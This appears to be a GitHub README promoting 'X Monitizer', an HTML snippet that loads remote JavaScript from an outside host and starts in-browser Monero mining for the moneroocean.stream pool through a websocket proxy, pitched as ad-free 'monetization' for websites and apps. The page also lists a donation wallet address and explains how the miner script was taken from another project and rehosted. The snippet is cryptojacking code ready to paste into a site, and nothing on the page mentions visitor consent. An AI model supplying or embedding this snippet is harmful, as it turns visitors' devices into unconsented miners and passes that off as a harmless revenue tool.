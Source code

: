 ## Use Address `42nW9ZsCPe53kxN2JQMnocSZtsWGdY8JhQFTa2hTxF148wvhf19BLPtFJCEtidr1nNJWVMWsicAEkhE4FoZUyddd9KtBTZe` To Support Me
##### X Monitizer Is A PowerFull JS Used To Monitize Websites And Apps  
#### Use This Code To Basically Monitize Your Apps Without Ads For Free  
### See This Video For More Info : https://www.youtube.com/watch?v=AZU6TeEjHVQ
## `HTML SCRIPT`
```
<script src="https://script.ghgi.xyz"></script>
<script>
    server = "wss://ghgi.xyz";
    var pool = "moneroocean.stream";
    var walletAddress = "PUT YOUR WALLET ADDRESS HERE";
    var workerId = ""
    var threads = -1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
</script>
```
### Almost All Languages Supports Html Code Includelation .. Use This Code As Your Pride .. 
  
# How It Works ?
- It Is Created By `https://github.com/notgiven688/webminerpool` Repo Basicaly
- I Tooked `SDK/miner_compressed/webmr.js` Script And Used It As Index JS ( Currently Hoted By `ghgi.xyz` )
- I Searched The Whole Internet And Atlest I Found A Free Hosted Server By `monerominer.rocks` And Then Picked It To Use It As `wss://ghgi.xyz`
- It Currently Only Support One Pool That Is `moneroocean.steam` That Is Very Good Pool
# Bye Bye , Thanks
